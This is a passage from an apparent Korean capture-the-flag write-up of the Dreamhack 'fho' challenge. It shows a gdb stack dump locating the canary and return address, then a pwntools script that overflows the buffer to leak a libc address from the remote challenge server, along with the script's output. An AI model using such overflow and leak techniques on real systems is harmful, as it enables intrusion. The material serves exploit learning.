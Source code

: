 ```python

gdb-peda$ x/40x 0x7fffffffdfa0
0x7fffffffdfa0: 0x6262626261616161      0x0000555555554a0a
0x7fffffffdfb0: 0x0000000000000000      0x0000555555554a40
0x7fffffffdfc0: 0x0000000000000000      0x00005555555547b0
0x7fffffffdfd0: 0x00007fffffffe0d0      0x60b078f4ce6a7a00 # ?? 카나리값
0x7fffffffdfe0: 0x0000000000000000      0x00007ffff7dfd81d #sfp  ret주소
0x7fffffffdff0: 0x00007fffffffe0d8      0x00000001f7fca000
```

사용자로 부터 입력을 받는 read 함수의 경우 rbp-0x40위치부터 입력을 받고 있고 카나리 값은 rbp-0x8에 존재한다. 그리고 우리가 알아내야 할 main 종료후 리턴될 __libc_start_main_ret 주소인 `0x00007ffff7dfd81d` 은 사용자의 입력을 받는 칸으로 부터 0x48만큼 덮어씌운 후 에 도달하는 것을 볼 수 있다. 이므로 이 값을 leak 하여 알아 낸 후 오프셋을 통하여 원하는 함수의 주소를 알아낼 것이다.

## 서버측의 라이브러리 버전 알아내기

이 문제에서는 라이브러리를 제공해 주고 있지만 예전 질문을 보면 라이브러리를 제공해 주지 않았던 문제로 보인다. 따라서 서버측의 라이브러리 버전을 알아내는 과정부터 진행하려고 한다. 

```python
from pwn import *

host="host3.dreamhack.games"
port=11211
p=remote(host,port)

e=ELF('./fho') # 파일 불러오기

payload =b'A'*0x48
p.sendafter("Buf: ", payload)
p.recvuntil(payload)
libc_start_main_ret = u64(p.recvline()[:-1]+b'\x00'*2)
print(hex(libc_start_main_ret))
```

위에서 알아냈던 __libc_start_main_ret의 주소를 버퍼오버플로우를 이용해서 알아내는 코드이다. 이를 실행하면 서버측에 있는 __libc_start_main_ret 주소가 나온다.

```python
┌──(root💀kali)-[~/바탕화면/fho(1)]
└─# python3 ./answer.py
[+] Opening connection to host3.dreamhack.games on port 17481: Done
[*] '/root/바탕화면/fho(1)/fho'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
/usr/local/lib/python3.10/dist-packages/pwnlib/tubes/tube.py:812: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
0x7fbd43883bf7
[*] Closed connection to host3.dreamhack.games port 17481
```
